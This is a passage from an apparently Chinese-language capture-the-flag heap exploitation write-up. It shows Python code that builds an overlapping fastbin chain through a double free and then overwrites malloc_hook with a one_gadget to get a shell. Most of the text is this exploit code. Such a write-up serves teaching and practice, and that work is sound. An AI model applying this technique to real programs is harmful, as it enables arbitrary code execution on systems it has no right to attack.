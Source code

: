 [![](assets/1708654729-79a5a6262b4145a3ed4ee36f5549f4d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104747-98d11994-d063-1.png)  
然后在 0x70 处构造一个重叠的链

```plain
add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)
```

[![](assets/1708654729-88b47962e1733934e4b522de8f16756d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104802-a13c4c70-d063-1.png)  
然后改 malloc\_hook 为 og，写/bin/sh

```plain
add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))
```
